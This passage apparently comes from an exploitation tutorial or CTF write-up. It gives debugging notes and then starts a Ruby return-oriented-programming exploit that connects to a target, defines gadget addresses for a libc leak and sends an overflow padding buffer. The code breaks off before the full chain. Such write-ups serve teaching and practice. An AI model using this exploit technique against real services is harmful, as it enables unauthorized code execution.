 A couple notes on this:

* If you want to do it again, you have to restart `gdb` completely because it now thinks it's the binary, not `ncat`
* Because of how the binary is written, you can't redirect a file, because the second the pipe closes the process terminates with `SIGPIPE` (the original binary isn't like that - I didn't notice till now and I don't want to re-do all my examples!)

## The rest of the owl

At this point, we can no longer just use a file and wave away the complexity - we need to read the `libc.so` value and do some math.

I'm just going to reproduce my full exploit here and try to annotate it in comments. Enjoy!

```ruby
# encoding: ASCII-8BIT

require 'socket'

# Use variables for host/port so we can change them to the real target later
IP = 'localhost'
PORT = 1234
s = TCPSocket.new(IP, PORT)

# This is a rally crappy function that reads one character at a time from the
# network stream until it ends with a value or disconnects - there are better
# ways to do this, but this works so whatever
def read_until(s, p, loud: false)
  #puts "(Waiting for server to say \"#{p}\"...)"
  data = ''
  loop do
    char = s.read(1)

    if loud
      print char
    end

    if char.nil? || char == ''
      raise "Disconnected!"
    end

    data.concat(char)
    if data.end_with?(p)
      return data
    end
  end
end

# Our initial gadgets - name them so you don't get confused later!
POP_RDI_RET = 0x401281
PUTS_PLT_ENTRY = 0x404000
PUTS = 0x401030
MAIN = 0x401196
DEBUG = 0x4011a0

# Read the initial banner
welcome_str = read_until(s, 'enter!')

# Extract the number so we don't have to patch our binary anymore
welcome_str =~ /Enter ([0-9]+) char/

# Send the values it wants
s.write(('A' * $1.to_i) + "\n")

```